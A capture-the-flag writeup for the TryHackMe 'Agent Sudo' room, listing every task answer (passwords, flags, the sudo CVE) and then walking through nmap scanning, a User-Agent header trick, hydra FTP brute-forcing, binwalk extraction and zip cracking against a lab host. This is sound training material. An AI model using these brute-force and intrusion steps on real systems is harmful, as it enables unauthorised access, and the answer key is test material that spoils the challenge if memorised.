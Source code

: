 # <div align="center">[Agent Sudo](https://tryhackme.com/r/room/agentsudoctf)</div>
Room/Agent-Sudo/writeup.md<div align="center">You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/4af38d66-6dd1-41ae-9086-7f17ffda540b" height="200"></img>
</div>
##  Task 1. Author note
```
No need
```
## Task 2. Enumerate
Enumerate the machine and get all the important information
### How many open ports?
```bash
3
```
### How you redirect yourself to a secret page?
```bash
user-agent
```
### What is the agent name?
```bash
chris
```
## Task 3. Hash cracking and brute-force
Done enumerate the machine? Time to brute your way out.
### FTP password
```bash
crystal
```
### Zip file password
```
alien
```
### steg password
```
Area51
```
### Who is the other agent (in full name)?
```
james
```
### SSH password
```
hackerrules!
```
## Task 4
Capture the user flag
### What is the user flag?
```
b03d975e8c92a7c04146cfa7a5a313c7
```
### What is the incident of the photo called?
```
Roswell alien autopsy
```
## Task 5
Privilege escalation
Enough with the extraordinary stuff? Time to get real.
CVE number for the escalation 
### (Format: CVE-xxxx-xxxx)
```
CVE-2019-14287
```
### What is the root flag?
```
b53a02f55b57d4439e3341834d70c062
```
### (Bonus) Who is Agent R?
```
DesKel
```
<!-- 
<!-- 
## 1. Let start with basic scan 
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ sudo nmap 10.10.14.138 -sV -A -sC -Pn 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 11:46 IST
Nmap scan report for 10.10.14.138
Host is up (0.41s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.11 - 3.14 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 4.14 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   289.07 ms 10.17.0.1
2   ... 4
5   431.68 ms 10.10.14.138
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.57 seconds
```
### Three ports are open so Let check for web first 
![Screenshot from 2024-05-07 11-51-15](https://github.com/Esther7171/Agent-Sudo-Walkthrough-/assets/122229257/500c8eba-1fcc-493c-8264-66f6baea6bf2)
## As we see it a clue hide here we need to change user-agent in request we can do it with burpsuit but im using curl to more simplfy it 
### As i try few attempt and random guess i found out the Agent name is ```C``` , Then i change user-agent i got this,
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -Lv
*   Trying 10.10.14.138:80...
* Connected to 10.10.14.138 (10.10.14.138) port 80
> GET / HTTP/1.1
> Host: 10.10.14.138
> Accept: */*
> User-Agent: C
> 
< HTTP/1.1 302 Found
< Date: Tue, 07 May 2024 06:23:54 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Location: agent_C_attention.php
< Content-Length: 218
< Content-Type: text/html; charset=UTF-8
< 
* Ignoring the response-body
* Connection #0 to host 10.10.14.138 left intact
* Issue another request to this URL: 'http://10.10.14.138/agent_C_attention.php'
* Found bundle for host: 0x557b30986800 [serially]
* Can not multiplex, even if we wanted to
* Re-using existing connection with host 10.10.14.138
> GET /agent_C_attention.php HTTP/1.1
> Host: 10.10.14.138
> Accept: */*
> User-Agent: C
> 
< HTTP/1.1 200 OK
< Date: Tue, 07 May 2024 06:23:54 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 177
< Content-Type: text/html; charset=UTF-8
< 
Attention chris, <br><br>
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
From,<br>
Agent R 
* Connection #0 to host 10.10.14.138 left intact
```
## It Look to complicate look at this way I use ```curl``` then the web url and ```-H``` for ````--header```, ```-L``` for ```location``` 
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ curl http://10.10.14.138 -H "User-Agent: C"  -L  
Attention chris, <br><br>
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
From,<br>
Agent R 
```
### Here is the msg that telling us That Our agent name is ```Chris``` and our password is weak, Maybe it talking about ftp password 
## 2. Let bruteforce Ftp
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.14.138 -t 40
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-07 12:07:50
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 40 tasks per 1 server, overall 40 tasks, 14344399 login tries (l:1/p:14344399), ~358610 tries per task
[DATA] attacking ftp://10.10.14.138:21/
[21][ftp] host: 10.10.14.138   login: chris   password: crystal
[STATUS] 14344399.00 tries/min, 14344399 tries in 00:01h, 1 to do in 00:01h, 14 active
```
### ftp password is ```crystal`` user ```chris```
### Let login in ftp 
```bash
┌──(death㉿esther)-[~/Pictures/Screenshots]
└─$ ftp 10.10.14.138 
Connected to 10.10.14.138.
220 (vsFTPd 3.0.3)
Name (10.10.14.138:death): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||62879|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> 
```
### Let download all this file in our system use ```get``` to download 
```bash
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||47570|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*************************************************************************************************************************************************************************************************|   217        2.95 MiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.91 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||61174|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*************************************************************************************************************************************************************************************************| 33143       47.23 KiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (35.05 KiB/s)
ftp> get cutie.png
local: cutie.png remote: cutie.png
229 Entering Extended Passive Mode (|||31562|)
150 Opening BINARY mode data connection for cutie.png (34842 bytes).
100% |*************************************************************************************************************************************************************************************************| 34842       63.62 KiB/s    00:00 ETA
226 Transfer complete.
34842 bytes received in 00:00 (45.99 KiB/s)
ftp> 
```
### We got a text file let read content of it
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ cat To_agentJ.txt 
Dear agent J,
All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.
From,
Agent C
```
## 3. Let do stegnography
### Ok let check strings of both png and jpg
### basically jpg is empty and there is nothing but there is something inside the cutie.png 
```bash
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ strings cutie.png     
IHDR
PLTE
.(CA
b+FB
8">;&@B&A>9RO =:#<A
;8$@=
.)%>A
:&AA
74-HC
Z5NK
!:@t
"6SB
?/KB
C2OB
CZWn
,Rhc
T9X@>VRMc^
`H_[z
^rmGk>t
<Nq;
Q|?Be>>^>
\!EC
\Y|M
QsK}
vEeHm
PWw5
PLlJ
)[oa
W3D?y
aPAA=
.%sPHz6/|
nVE?e82
*tRNS
IDATx
HI-(./1
	OQv:
b-J$0)
_&*G
s-H$&
	GR6
N#aH.
0v;mu
-M&auuu
<:Dhs
-E8{
=Nx6
/]l2
VZ,B
!/=Oh
0~{+w
Gs$D0
rs*KK"T
V_}$
H=p>D
30Rc
'_yR
lCfYE
oDn^
$oBpc1
A<p:
qJnU
%'Ow
xPg&
ufe=
+Mq2U
Pddd
1C\7
|>&-
i!r)y=
~WJ6
1_;Vh
:xI$
^]]^1
9]#>
Xnuz%z
[@\$-
-?(S
Hqg&
g906
fT*	!
bW[D
|*=\x'
dTWk
9tE!
'=RE|
 '&w!s
 Hv[
S0)g
x1r]
La^n
=XX{
9Dxj
t?Pu
2[Yj
,Pc(d
urx 
cYqiZ<
}p|Ck
+)-7
p*}"
;GL@
\"Rd
iR\_
iRqK
RPDf
|.-.
)?S1	
EO>j
0#xhr
kj^m
'H|@
9C&,
%-eU
8%Z0
F@%;
S3Vb
gG!P
FEm'pcy
XC-+
u{0E\
0b!G
p7h'
Zx;d"F
!N+	{A<
:#33w
x6Zg
]zho
7n[F
]s.#
%fFg
AQD!
b+i#
*yc-
j^7k
2oaOi
G@L4?4
04	'
5I?1'
L+d(
{.rx
Yqqv
	E =
] fT
<KVk
9neB
,Rk{p8
}*@'
cmoGU
SlD/
UDn 
sg/|Yv
A>:9
Ur#4e
NOOO
jD	2
0[mV
#ASv
DHIT}
^ZBl
bttM
lE -
Qx:*p
Qt+9b
6}7v
#d0L
+km"
d$ >
dbhe
JCih
!/I&
0y0G
0d"G
o~:rJ(
&3JX
DJ,A2q<
<^}o
rq=E@.
nWLI5rT):\
;{F_<
" ni
h%xi
OsIt
+lX6~
8eVh
5PKf
AL;Y
*s.,
6Y~^
8}\hZ
DXU7
e@8@
95~N
c*#L|g9
?K*Jmy
mT!jc3
Ielm&1Fl
y(BXG
-.k(
eM!\UA
_	+*\#
n<n^$
;zBF
AUh|@G0ZE
jEEM
3yhL
Wn`1b
JoWc
4f:8
K.ZA
\2l|
XJ1'
1K*K
|$|e=
Z"P6
;ogK
'nj#
r,wa.
GLujU
goux<A
$\>Sb
TOjC
mv.-C
.\Z:2"p
Im9f
SP:b,
to\Wl
^j_@K
].*F8
J9s"
k]}[
qj<ZR
VIJ3
fD"5
v<mG
)Nu26
>/gk
<j:_P
";9#H
8~{U
v|zM3
/2w=O
t\iP
b>$'
7~G;g_
nBi	
fYi2
^:(r
#B_\S1
83Dl
y"F48
{YNJK
]C3i0
z9#c
+g$5<V
&Im6
YDu+
3E)W
D&vA
)$qf6
wuvv
P;8 
:I~H'
-3NH
4]S&cS
r@r&
l6c)
^>'/H
D)@v6*
rAB4
-?EE
rP"N
fMY*
lF"|1>+
pF<TS
a1_{
 i1.
e,Rn
zF#D
2}FyUp
F#;D}
[:/v
*!F-
hw D
TH'D
]Z	A-
UUTa
j%Dc
2)Ck;
UDaB
yaav
Wqww7
	{	1
G!6R%
0,#8
#Q1u]
tI_O
4e%M
zkY|
C+C4
8;cx's
5DxG
T.WiC
\DB|
h5er
%IDUL
8yLe,
ez	qF
V++S
C=,tu
VS.i2
Db@!
,C["R
13clO
SM/;e4
iw<&D
>buX
nB+p&F
|PA<
LBl+!!F
_fc4
:c<"%e
.C|;
e#D)
{t8F
@)nNE
otzz
WyQFd9X
Kc#D
aBl<
l4$Y
ofQif
H@&!t*~
=-B<
og4|
i8NwQ
M*4>
^0!F
Dtqlv
w<Xv
q`j{%1
J@j%
2-,>$
2;20
lb1"
|tLd<
0#6o
&fGg
 i7w
;COU@
?\>x
M$z6<
`wh+P
7xE 1
$DnB
xA__
wPF|
F-NC
r>_M
]NMt
<+<8
@1UkW
a\El
E)`F
ktr*
eDvQ
q|hhh
B')Y
VcTf
!#\~'
I6!8
y|\{
h383e
J*40
o^;r"
l9C'
:G'{
;U>45G9
$tf"
"KeU$
\j|{
#o}G
a'M(>
w?q|'
x}N.
vnW*w
KgVk
z5>vbP
?fi];
@2	<h
^)QuS
d,"t
.>~B4
Nf>?
t@fD
wYc&F
/v`w!L
 7vf
J,g`
R? |
J\NN
@fb|
:dcF
-J	U
 z"N-"z
C0]D
E1]Ey
$kSh
t\( D
i@W[[
_BK41hq
rjL'
lb;vr
l&c/D
IP79
_S+=
<u%+*?`
-?P{GK
+0"c
0{BQ
84<?4
i#:8
 ]@h^
aM`G
<UVp}
zORs
=3SX~
;.W*
tJ?;
qU~a
Tl>i
"B~7
!=#DY
iwf3"~
-pR('
h:t.
\QBL?
L3}Ov
&=%(
01iI
RK:<
(*[!m
{+|D
o;'G
$^ri~!W"
PMT>\s
f1 o
Q	!OkW
$:\x0
?('C[:
$Kr:T
1"+o
6#LPJ
2KU%
! HD
]<o$
5#XZ
%ZmYy
-!o<
1F@)
J9m|>
q"HM
Hl{:
<8@*4
576#
u$RJ
0533
b,jU
DKI|
:cDT
@jp.
R@%H:
w*j+
@Xp.
Oxm	
<c`R
_X(1
AHek
$pSF
-,|va
.A0,"oS I
f'x+
IB`L
55zm\
4V.U
W44fJ"@#
gQ[r
"TN)
t-zq
	%60
*%^(
AfCH
DUp#
WW_nll
\g9R
v:]}
kHu,
7FC:d%lv
]Hu9H
8vz7
7P<O^
.uk 
}mZl
s%_'q
mfOf
#)f]
aqnJ}
&19u
Ein?x
fP"j
i[+*)
1!<31
NB7X
<~;o
6;>!o
XDXT
w*Sp
	([b!
G9qE
(A}j
^MEjOk
L^ay
"P{J
d: ]
ZT%Q
p7a4u
^[=&
IEND
<!-- To_agentR.txt 
<!-- W\_z#
2a>=
<!-- To_agentR.txt        
<!-- 
EwwT
```
### There is hidden file is in zip format inside it there are text files
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ binwalk cutie.png 
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
### Let try to extract it, binwalk ```-e``` it stands for extract  
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ binwalk cutie.png -e 
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
### Here we got a folder
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo]
└─$ cd _cutie.png.extracted          
                                                                                                                                                                                                                                              
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ ls
365  365.zlib  8702.zip
```
## 4. Let crack zip file
### Time to use zip2john to extract hash
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ zip2john 8702.zip > hash
```
### Let crack it using John
```bash
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ john hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
No password hashes left to crack (see FAQ)
```
### Hash cracked let see                                                                                                                                                                          
```bash                                                        
┌──(death㉿esther)-[~/Lab-CTF/Agent-sudo/_cutie.png.extracted]
└─$ john hash --show
8702.zip/To_agentR.txt:alien:To_agentR.txt:8702.zip:8702.zip
1 password hash cracked, 0 left
```
### zip password is ```alien```
### Let extract it  -->
